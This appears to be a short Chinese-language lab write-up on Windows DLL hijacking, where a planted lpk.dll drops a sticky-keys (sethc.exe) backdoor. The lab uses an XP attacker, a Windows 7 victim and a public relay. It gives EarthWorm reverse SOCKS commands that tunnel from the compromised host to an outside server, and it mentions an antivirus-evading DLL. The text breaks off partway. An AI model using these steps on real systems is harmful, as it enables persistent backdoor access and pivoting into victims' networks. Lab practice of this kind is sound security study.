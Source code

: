 # dll劫持
原理：Windows执行exe的时候会调用lpk.dll这个库，默认调用exe所在目录下的lpk.dll然后就上传lpk.dll到含有会经常执行的exe所在的文件夹，然后当执行这个软件的时候就会运行上传的dll，然后这个dll就会上传shift后门，但是shift后门已经有点不适用了
- Windows从win8开始就默认使用网络级别的验证，就是说输入用户名密码不再是远程连接到目标主机后才输入，而是要再远程到对方系统之前就输入。关闭网络级别的身份验证是取消“仅允许运行使用网络级别身份验证的计算机连接（建议）”选项
- Windows目前对system目录的续写权限设置的比较高，想要写入shift后门就需要很高的权限，而shift后门就是为了提高权限。就冲突了

# 实验环境
- Windows xp 攻击机
- Windows7 被攻击机
- 公网主机 主要用于转发
> 不再一个网段，需要端口转发,实验环境因为这两套系统还有原来的客户端级别的验证方式,假设已经取得了一个shell,(本来想安装一个sqlserver来着 安装包实在太大了  安装上就没法睡觉了 )


# 代理先练一下代理
还是使用ew socks代理,再熟悉一下明天再用别的
```
公网上
./ew_for_Linux32 -s rcsocks -l 1081 -e 8889 
win7上
ew_for_Win.exe -s rssocks -d 45.*.*.190 -e 8889
xp上
Proxifie直接配置全局代理
```
有点不稳 还是来一把端口转发吧
```

```

# 上传lpk.dll
上传的是渗透工具包里面的免杀版本，还附带了一个sethc.exe直接尝试运行这个exe